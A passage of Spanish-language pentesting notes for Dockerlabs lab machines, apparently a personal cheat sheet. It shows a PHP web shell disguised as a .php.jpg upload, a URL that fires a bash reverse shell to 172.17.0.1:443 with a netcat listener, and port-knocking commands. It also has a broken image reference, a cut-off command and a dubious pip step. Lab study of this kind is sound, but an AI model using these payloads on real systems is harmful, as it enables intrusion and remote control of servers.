 
b.- Jetty (10.0.13)

podemos entrar al directorio /script

y ejecutar el comando:

referencia, máquina jenkhack - dockerlabs:

https://github.com/dfalla/Hacking---Dockerlabs/blob/jenkhack/image-4.png

-------------------------------------------------------------------------------

## 5.- Si tenemos la posibilidad de subir un archivo .jpg, podemos subir una reverse shell, con la extensión .php.jpg, previamente ver con burp suite sobre las extensiones permitidas.

contenido del archivo:

<?php
system($_GET['cmd]);
?>

o colocarle el reverse shell de php que está en la sección 1.1

ubicamos el directorio donde se guardó el archivo .php.jpg, casi siempre en uploads

entonces para entrar en la máquina hacemos, ejemplo:

http://172.17.0.2/themes/uploads/674e227bb3cce.jpg?cmd=bash -c 'bash -i >& /dev/tcp/172.17.0.1/443 0>&1'

previamente nos ponemos en escucha con netcat por el puerto 443, para luego hacer clic en el archivo que se subió.

-------------------------------------------------------------------------------

## 6.- Técnica PORT Knocking

es una técnica de seguridad que permite ocultar servicios en un servidor (como SSH) cerrando sus puertos por defecto y abriéndolos solo cuando se envía una secuencia específica de intentos de conexión ("golpes" o knocks). Es útil para evitar escaneos de puertos y ataques automatizados

knock 172.17.0.2 7000 8000 9000 -v

knock 172.17.0.2 22 80 8080 -v

tambiién con la herramienta:

KnockIt

la clonamos:

https://github.com/eliemoutran/KnockIt.git

creamos un entorno virutal (apunte 66) e instalamos:

pip install itertools
